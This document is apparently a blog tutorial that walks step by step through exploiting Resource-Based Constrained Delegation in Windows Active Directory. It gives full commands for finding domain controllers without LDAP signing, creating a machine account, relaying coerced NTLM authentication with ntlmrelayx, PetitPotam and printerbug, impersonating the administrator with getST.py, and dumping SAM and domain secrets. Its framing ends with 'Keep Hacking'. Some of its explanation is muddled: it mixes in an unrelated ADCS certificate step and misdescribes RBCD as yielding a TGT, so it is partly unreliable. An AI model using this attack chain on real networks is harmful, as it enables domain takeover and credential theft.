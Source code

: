 
# Resource-Based Constrained Delegation (RBCD) Exploitation

## Initial Engagement

### Introduction

 In this article, we'll delve into the world of Resource-Based Constrained Delegation (RBCD), a Windows-specific protocol that can be exploited for unauthorized access and understand how  to perform RBCD to gain elevated privileges or even domain administrator rights.

### What is RBCD?

RBCD is a Kerberos-based protocol that allows a service on a domain-joined computer to obtain a ticket-granting ticket (TGT) for a specified user account. This process is constrained by the permissions of the service, so the TGT obtained is limited in its scope and can't be used for unauthorized access. (We'll see about that)

### Why Should You Care?

 Understanding how to exploit RBCD vulnerabilities to gain unauthorized access to sensitive resources can add more to your toolkit. Understanding how constrain and coercion works you'll be better equipped to identify and mitigate (or exploit) these risks, ensuring the security of your organization's infrastructure.

## The How-To Guide

RBDC exploitation needs an specific set off conditions. I'll add a list of those conditions and we'll be going through it along the article so don't worry if you don't get something right away just keep reading.

- A domain controller with ldap signing disabled or not enforced
- A victim server with Web-based Distributed Authoring and Versioning (Webdav) enabled
- A domain user account with Service Principal Name (SPN) and delegation permissions 

That's good! Enough talk lets get in to the exploitation.
### Step 1: Identify Potential Targets

To exploit an RBCD vulnerability, you need to find a target that has not implemented proper security measures. we are looking for domain controllers with ldap signing disabled NetExec is our friend here.

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M ldap-checker
```

after we get our vulnerable domain controller we need to identify a machine to attack this is going to be our target this machine has to have webdav enabled and be vulnerable to two authentication coercion we are going to look for MS-EFSRPC (PetitPotam) or MS-RPRN (PrinterBug).

```
nxc smb <IP/Scope> -u <username> -p <password> -d <domain.com> -M coerce_plus
```

Now we got our targets, a vulnerable domain controller to perform the relay and a vulnerable machine to perform the coercion.
### Step 2: Setup our machine

Before proceeding with the exploit you'll need an account with SPN, if you're lucky enough your account already have an SPN if you don't have one there are a couple of ways to get one.

1. **Modify DNS record**
2. **Create a Machine account**

##### Modify DNS Record 

To modify the DNS record we can use a tool called `dnstool.py` that is part of the `krbrelayx` repository by the incredible Dirkjanm.

```
dnstool.py -u domain.com\username -p <password> -a add -t A -r <machinename> -d your_ip dns_server_ip
```

Let break this command a little:

- -a add : Action to take on the dns server
- -t A : Type of record 
- -r : Record to add (the name you want to use)
- -d : your attacker machine ip followed by the dns server ip

if this succeeds congrats you can continue with the relay if you don't have permissions maybe you can create a machine account.

##### Create a machine account

First of all we need to check if we have permissions to create machine accounts lets pull nxc again and check for the domain controller machine account quota (MAQ).

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M maq
```

if we have a maq above 0 we can attemp to create a machine account all machine accounts have SPN as default

to create a machine account we are going to use a tool from the Impacket Repo called `addcomputer.py`.

```
addcomputer.py -method LDAPS -computer-name 'COMPUTERNAME$' -computer-pass 'Password' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'
```

- `-dc-host` : hostname of the domain controller.
- `-domain-netbios`: the domain's name where the new computer account will be added. 
- `-computer-name`: the name of the new computer account. 
- `-computer-pass`: password of the new computer account. 
- `-method`: the method to add the new computer account. It can be:
	- SAMR to add the account via SMB 
	- LDAPS. 
	(This is important the default method is SAMR and with SAMR the account will be created without SPNs)

if this succeeds congrats you can continue with the relay.
### Step 3: Configure and Launch the RBCD Exploit

RBCD is a relay attack we are going to relay the authentication from one machine to our own using coercion then we are going to relay that authentication attempt to a ADCS and get the certificate then we use that certificate to impersonate the victim account and get the kerberos ticket(TGT).

![Relay.png](https://github.com/Zer0Xfr/Zer0Xfr.github.io/blob/main/posts/BeBased/Relay.png)
 
Lets start by setting up the relay. We are going to use another Impacket tool called `ntlmrelayx.py`.

```
./ntlmrelayx.py -smb2support -t ldaps://dc.domain.com --http-port 8080 --delegate-access --escalate-user SPNusername --no-dump --no-acl --no-da --remove-mic
```

Let `ntlmrelayx.py` running and attempt authentication. we have two ways for the coercion: 

- MS-EFSRPC (PetitPotam)  
- MS-RPRN (PrinterBug)

###### MS-EFSRPC (PetitPotam)
```
./PetitPotam.py -d episourcein.episource.com -u 'user' -p 'password' SPNUsername@8080/path victim.domain.com
```

###### MS-RPRN (PrinterBug)

```
./printerbug.py domain.com/user:password@victim.domain.com SPNUsername@8080/path
```

Then we are going to request the Impersonated Service Ticket for this we are going to use another impacket tool called `getSt.py`.

```
./getST.py -spn cifs/victim.domain.com -impersonate 'administrator' domain.com/SPNusername:'password' -dc-ip <domain_ip> 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping... 
[*] Getting TGT for user
[*] Impersonating ldap.
```

Then we just have one step left retrieve the ticket stored in cache

```
export KRB5CCNAME=/yourpath/domainAdmin.ccache
```
### Step 4: Profit

Now you can use this kerberos credentials to do whatever you want enumerate, dump creds, etc ...

```
nxc smb victim.domain.com --use-kcache --sam 
```

```
./secretsdump.py -k -no-pass victim.domain.com
```

## Conclusion

Hope this guide help you get some Domain Accounts, By understanding how you can misuse RBCD vulnerabilities, you'll be better equipped to pawn more things. Keep Hacking!
